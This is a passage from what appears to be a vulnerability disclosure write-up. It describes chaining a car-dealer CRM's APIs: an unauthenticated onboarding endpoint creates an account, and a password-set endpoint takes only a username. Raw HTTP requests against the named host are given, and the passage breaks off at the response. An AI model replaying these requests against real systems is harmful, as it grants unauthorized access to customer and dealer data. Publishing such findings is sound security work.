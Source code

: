 

I then reached out to @rootsploit to work on this together, and we started going through the APIs. There were a whole lot of APIs out there and based on the endpoints it looked like they could give us access to some critical customer/dealer information.


We encountered a roadblock, as most of the relevant APIs required a valid bearer token (JWT) for access (as expected). We then actively started skimming through the available APIs for authentication-related endpoints and came across a login endpoint.


```
POST /api/user/login HTTP/1.1
Host: user.dealercrm.co.in


{"username":"CRMXXXXX","password":"XXXXXX"}
```


The next challenge was authentication — the API required a valid username and password. Naturally, our focus shifted to finding a signup or account creation endpoint. This part involved a bit of trial and error, as the terminology used wasn’t straightforward. For car dealers, "signing up" can be considered as `onboarding`. Eventually, we came across an endpoint that included keywords like dealer, onboarding, and master, which seemed promising.


````
PUT /api/dealeronboarding/dealeronboardingusermastersubmission HTTP/1.1
Host: user.dealercrm.co.in
 
{"firstName":"a","lastName":"a","designationId":1,"experienceId":1,"dateOfBirth":"09/09/1998","dateOfJoining":"01/01/2023","primaryContactNo":"9999999999","secondaryContactNo":"9999999999",emailId":"example@gmail.com","qualificationId":5,"aadharNo":"667666676666","pan":"XXXXXXX","dealerId":100000}
 ````
 On sending this request through curl, we got a 200 OK response with `username` and `userId`. Nice!


 ```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Length: 73
 
{"errorStatus":false,"message":"Ok","userName":"CRM66666","userId":99999}
```
We got our username in the system but we still haven't set the password yet. I tried resetting the password using the username through the dealercrm portal, thinking that initiating that forgotten password flow might send a code to the email from the dealer onboarding call, but that didn't work.
Going back to the endpoints we figured out a password reset API which accepted username and password as the input - 
 
```
PUT /api/usermanagement/getsubmitnewpasswor HTTP/1.1
Host: user.dealercrm.co.in
 
{"username":"CRM66666","password":"test"}
```
Response:
